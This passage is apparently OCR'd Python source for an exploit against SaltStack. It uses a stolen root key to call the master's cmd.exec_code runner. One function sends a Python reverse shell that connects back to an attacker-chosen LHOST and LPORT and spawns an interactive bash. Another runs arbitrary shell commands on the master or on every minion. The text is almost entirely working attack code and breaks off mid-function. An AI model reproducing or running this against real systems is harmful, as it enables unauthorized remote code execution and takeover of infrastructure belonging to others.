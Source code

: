 ```python



def pwn_getshell(channel, root_key, LHOST, LPORT):
    msg = {"key": root_key,
           "cmd": "runner",
           'fun': 'salt.cmd',
           "kwarg": {
               "fun": "cmd.exec_code",
               "lang": "python3",
               "code": "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{}\",{}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);".format(
                   LHOST, LPORT)
           },
           'jid': '20200504042611133934',
           'user': 'sudo_user',
           '_stamp': '2020-05-04T04:26:13.609688'}

    try:
        response = channel.send(msg, timeout=3)
        print("Got response for attempting master shell: " + str(response) + ". Looks promising!")
        return True
    except:
        print("something failed")
        return False


def pwn_exec(channel, root_key, exec_cmd, master_or_minions):
    if master_or_minions == "master":
        msg = {"key": root_key,
               "cmd": "runner",
               'fun': 'salt.cmd',
               "kwarg": {
                   "fun": "cmd.exec_code",
                   "lang": "python3",
                   "code": "import subprocess;subprocess.call('{}',shell=True)".format(exec_cmd)
               },
               'jid': '20200504042611133934',
               'user': 'sudo_user',
               '_stamp': '2020-05-04T04:26:13.609688'}

        try:
            response = channel.send(msg, timeout=3)
            print("Got response for attempting master shell: " + str(response) + ". Looks promising!")
            return True
        except:
            print("something failed")
            return False

    if master_or_minions == "minions":
        print("Sending command to all minions on master")
        jid = "{0:%Y%m%d%H%M%S%f}".format(datetime.datetime.utcnow())
        cmd = "/bin/sh -c '{0}'".format(exec_cmd)

        msg = {'cmd': "_send_pub", "fun": "cmd.run", "arg": [cmd], "tgt": "*", "ret": "", "tgt_type": "glob",
               "user": "root", "jid": jid}

        try:
            response = channel.send(msg, timeout=3)
            if response == None:
```